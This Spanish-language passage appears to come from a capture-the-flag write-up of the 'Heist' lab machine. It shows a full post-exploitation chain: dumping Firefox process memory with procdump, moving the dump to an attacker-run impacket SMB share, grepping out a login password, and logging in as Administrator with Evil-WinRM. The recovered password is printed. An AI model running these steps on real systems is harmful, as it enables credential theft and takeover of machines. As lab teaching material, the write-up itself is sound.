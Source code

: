 Como podemos ver hay varios procesos activos del navegador firefox por lo que es bastante raro, por lo que podemos dumpear y ver si podemos obtener credenciales:
```powershell
*Evil-WinRM* PS C:\Users\Chase\Documents> upload /home/kali/Heist/exploits/procdump64.exe .
Info: Upload successful!
```

- Ejecutamos la herramienta de la siguiente forma para el `dumpeo`:
```powershell
*Evil-WinRM* PS C:\Users\Chase\Documents> .\procdump64 -ma 6252 -accepteula
ProcDump v9.0 - Sysinternals process dump utility
Copyright (C) 2009-2017 Mark Russinovich and Andrew Richards
Sysinternals - www.sysinternals.com
[05:14:50] Dump 1 initiated: C:\Users\Chase\Documents\firefox.exe_7908054_023447.dmp
```

- Pasamos el archivo a nuestra maquina atacante para aplicarle la regex, para buscar la password:
```bash
impacket-smbserver dumpeo -smb2support $(pwd) -user test -password test
```

```powershell
net use n: \\IP\dumpeo /user:test test
move firefox.exe_7908054_023447.dmp n:\firefox.exe_7908054_023447.dmp
```

- Buscamos la password dentro del archivo:
```bash
grep -aoE 'login_username=.{1,20}@.{1,20}&login_password=.{1,50}&login=' firefox.exe_7908054_023447.dmp
```

- Encontramos dichas credenciales:
```bash
4dD!5}x/re8]FBuZ
```

- Iniciamos sesión como `Administrator con Winrm` y ya tenemos control total de la maquina:
```powersehll
evil-winrm -i 10.10.10.149 -u Administrator -p '4dD!5}x/re8]FBuZ'

*Evil-WinRM* PS C:\Users\Administrator\Documents>
```


